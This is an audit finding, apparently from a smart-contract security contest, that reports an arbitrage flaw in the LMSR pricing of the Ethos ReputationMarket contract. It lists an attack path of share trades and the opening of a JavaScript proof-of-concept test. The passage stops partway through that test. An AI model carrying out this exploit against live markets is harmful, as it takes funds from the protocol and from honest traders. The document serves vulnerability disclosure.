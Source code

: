 https://github.com/sherlock-audit/2024-12-ethos-update/blob/main/ethos/packages/contracts/contracts/utils/LMSR.sol?plain=1#L93-L103

### Internal Pre-conditions

- There must be at least two users interacting with the same market.


### External Pre-conditions

- No external conditions need to shift drastically; this exploit relies purely on the contract’s internal pricing logic.
- Gas costs remain low enough that repeated trades are feasible for the attacker. which is true in base layer 2.


### Attack Path

- Attacker (User B) buys a small number of “no” shares, nudging the global price in favor of “yes.”
- Attacker immediately buys a large amount of “yes” shares at a relatively low “spot” price.
- The attacker (or another user) then reverses the shift (e.g., buys “no” or sells “yes”) so the global price changes again, making the attacker’s “yes” shares more valuable.
- Attacker sells the large “yes” position at the new higher price, pocketing more than they originally paid due to the incorrect per-transaction pricing.


### Impact

The protocol (and possibly other honest traders) suffer a loss equivalent to the difference between the attacker’s buy and sell prices that LMSR should have recaptured as integral cost. The attacker gains that difference as risk-free profit.


### PoC

add this code to one of the test like test/reputationMarket/rep.market.test.ts
this is just a numerical example of how shares can be bought. other amount of shares are acceptable.

```javascript
  describe('ReputationMarket - LMSR Arbitrage PoC', () => {

    it('should replicate the multi-step scenario (matching logged events)', async () => {
      const initialBalanceB = await ethers.provider.getBalance(await userB.signer.getAddress());

      // (1) user 0 (userA) buys negative votes: amount=199, funds=1.0966e18
      await userA.buyVotes({
        isPositive: false,
        votesToBuy: 199n,
        buyAmount: 1096640775160633321n, // from logs
        minVotesToBuy: 199n, // prevent slippage revert
      });

      // (2) user 1 (userB) buys negative votes: amount=539, funds=3.477e18
      await userB.buyVotes({
        isPositive: false,
        votesToBuy: 539n,
        buyAmount: 3477047841202111564n,
        minVotesToBuy: 539n,
      });

      // (3) user 1 (userB) buys positive votes: amount=58, funds=2.008e17
      await userB.buyVotes({
        isPositive: true,
        votesToBuy: 58n,
        buyAmount: 200866704876282396n,
        minVotesToBuy: 58n,
```